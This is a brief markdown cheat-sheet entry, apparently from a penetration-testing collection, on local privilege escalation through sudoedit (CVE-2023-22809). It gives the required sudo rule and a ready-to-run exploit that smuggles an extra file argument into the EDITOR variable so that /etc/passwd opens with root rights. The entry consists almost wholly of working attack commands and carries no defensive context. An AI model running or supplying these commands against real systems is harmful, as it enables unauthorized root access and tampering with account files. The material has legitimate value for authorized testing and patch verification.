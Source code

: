 # Vim Privilege Escalation

## CVE-2023-22809
Conditions:
```sh
sudo -l

May run the following commonds:
    (root) NOPASSWD: sudoedit targetfile.txt
```

Set vim and the target file to the default EDITOR variable. Then execute with sudoedit as normal
```sh
export EDITOR="vim -- /etc/passwd"

sudo sudoedit targetfile.txt
```


